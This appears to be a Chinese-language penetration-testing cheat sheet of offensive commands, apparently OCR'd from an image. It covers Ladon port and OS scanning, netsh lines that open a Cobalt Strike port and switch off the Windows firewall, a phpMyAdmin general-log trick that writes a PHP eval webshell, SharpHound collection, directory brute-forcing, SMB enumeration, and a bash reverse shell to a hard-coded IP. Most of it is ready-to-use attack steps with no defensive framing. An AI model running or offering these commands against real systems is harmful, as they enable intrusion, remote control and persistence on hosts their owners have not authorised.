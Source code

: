 cs:
Ladon ip PortScan
Portscan 网段 端口 协议（icmp arp none）线程
域内存活主机:
Ladon ip段 OnlinePC
域内操作系统:
Ladon ip段 OsScan

防火墙规则:
netsh advfirewall firewall add rule name=cs dir=in action=allow protocol=TCP localport=6666
netsh advfirewall set allprofiles state off

主机发现:
netdiscover -i eth0 -r 192.168.72.0/24

phpmyadmin:
日志文件getshell
show variables like '%general%';
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'
SELECT '<?php eval($_POST["cmd"]);?>'

BloodHound
SharpHound.exe -c all

目录爆破:
dirb http://192.168.0.100 wordlists/common.txt -o result.txt
Dirbuster

web banner信息:
curl -I ip 

wp扫描:
wpscan http://192.168.0.100/wordpress

smb信息枚举:
enum4linux -U -o 192.168.1.200

windows获取共享资源:
net use z: \\ip\share$

linux获取共享资源:
mount -t cifs -o username='',password='' //192.168.0.100/share$ /mnt

linux主机信息:
uname -r 
lsb_release -a
cat /etc/issue

shell:
webshell反弹系统shell:(需url编码)
echo "bash -i >& /dev/tcp/10.95.14.221/1234 0>&1" | bash

提权:
配置文件、数据库连接文件、用户的文件
已知本地提权漏洞
